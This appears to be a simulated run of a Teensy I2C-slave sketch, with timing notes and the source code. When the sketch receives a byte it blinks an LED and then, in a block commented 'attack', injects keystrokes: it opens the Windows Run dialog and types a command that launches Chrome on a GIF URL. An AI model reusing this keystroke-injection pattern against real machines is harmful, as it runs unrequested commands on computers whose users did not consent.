
Simulated run of this sketch. Board: Teensy 4. Parts: output pins drawn as LEDs (lit = HIGH), the last lines printed to the serial monitor. Dashed ring = blinking. Inputs (shaded band) come from the test bench.

Above: at 1.2 s.
1.3 s: the I2C master sends the byte 1
At 2.4 s:

4.3 s: the I2C master sends the byte 0
Timing chart, 0 to 12.9 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.3 s, pin 13 (ledPin): alternates HIGH for 0.50 s and LOW for 0.50 s, starting after 0.05 s

The sketch:

Teensy.ino
```cpp
#include <Wire.h>


const int ledPin = 13;
void setup() {
  /* slave */
  Wire.begin(4);                // join i2c bus with address #4
  Wire.onReceive(receiveEvent); // register event

  Serial.begin(9600);

}

void loop() {
  // Do nothing after the test
}

/* slave : on REceive event */
void receiveEvent(int message)
{

  int x = Wire.read();    // receive byte as an integer
  Serial.println(x);

  /* attack
  Blink the LED for 10 seconds, to give time to open
  a word processor or text editor to receive the test*/
  pinMode(ledPin, OUTPUT);
  for (int i=0; i < 5; i++) {
    digitalWrite(ledPin, HIGH);
    delay(500);
    digitalWrite(ledPin, LOW);
    delay(500);
  }

  Keyboard.press(MODIFIERKEY_GUI);
  Keyboard.press(KEY_R);
  Keyboard.release(KEY_R);
  Keyboard.release(MODIFIERKEY_GUI);
  delay(200);
  Keyboard.press(KEY_ENTER);
  Keyboard.release(KEY_ENTER);
  delay(200);
  Keyboard.print("start chrome.exe https://static.hitek.fr/img/up_m/721767544/griezmann.gif");
  Keyboard.press(KEY_ENTER);
  Keyboard.release(KEY_ENTER);
}
/*
 *
 */
```
